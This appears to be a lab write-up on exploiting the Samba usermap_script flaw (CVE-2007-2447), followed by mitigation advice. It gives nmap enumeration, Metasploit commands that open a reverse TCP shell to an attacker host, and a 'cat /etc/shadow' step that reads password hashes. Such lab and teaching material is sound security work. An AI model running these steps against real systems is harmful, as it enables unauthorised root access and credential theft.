



# 📁 Remote Code Execution via Samba usermap_script (CVE-2007-2447)

## 📌 Module Overview
This module documents the identification, exploitation, and mitigation of the historic **Samba usermap_script vulnerability (CVE-2007-2447)**. The objective of this lab is to demonstrate the mechanics of a **Reverse TCP Shell** and analyze how an attacker performs root-level post-exploitation actions, such as extracting sensitive credential databases.

### 🧬 The Vulnerability Mechanism (Under the Hood)
The flaw exists within the input-validation handling of Samba versions 3.0.0 through 3.0.25. When processing user authentication requests via SMB (Ports 139/445), the software fails to sanitize shell metacharacters passed into the username field. 

If an attacker inputs shell commands disguised within a username payload, Samba executes the command string directly in an external shell environment with root privileges.

---

## 🚀 Execution Steps

### 1. SMB Service Enumeration
Identify open file-sharing ports and verify the exact running version of the Samba framework on the target asset.

```bash
# Target ports 139 and 445 for a service version scan
nmap -p 139,445 -sV 192.168.142.128
```


_Figure 1: Target enumeration validating Samba version 3.0.20 listening on standard SMB interfaces._

---

### 2. Exploitation via Reverse TCP Payload
Unlike a bind shell setup, this exploit requires configuring a local handler interface (`LHOST`) on the attacking infrastructure to catch the incoming callback execution thread triggered on the target host.

```msf
# Load the specific multi-exploit framework path
use exploit/multi/samba/usermap_script

# Input variables mapping target and attacker layouts
set RHOSTS 192.168.142.128
set LHOST 192.168.142.129

# Review settings before trigger launch
show options
```


_Figure 2: Verifying required local and remote variable mappings._

Execute the code branch to trigger the callback loop:
```msf
exploit
```


_Figure 3: Automated payload deployment establishing a Command Shell session via local port 4444._

---

### 3. Post-Exploitation: Credential Database Extraction
Because the vulnerable service maintains root context, achieving command execution grants immediate administrative dominance. To verify complete system compromise, we query the protected Linux password hash file.

```bash
# Extract the shadow password configuration file
cat /etc/shadow
```


_Figure 4: Reading the highly restricted credential hashes from the system database._

---

## 🛡️ Containment & Mitigation Strategies

1. **System Upgrades (Primary Remediation):** Decommission legacy distributions and update the file-sharing architecture to Samba version 3.0.25a or later, which correctly sanitizes username strings.
2. **Network Isolation & Border Controls:** Enforce strict access control lists (ACLs) at the host and perimeter firewalls to restrict ports 139 and 445 solely to verified internal subnets.
3. **Secure Code Enforcement:** Implement robust regex filters on input data vectors to strip command-line operators (like backticks, semicolons, and pipes) before data reaches system shell execution hooks.

---
_Disclaimer: Documented solely for authorized academic analysis inside isolated laboratory sandboxes._

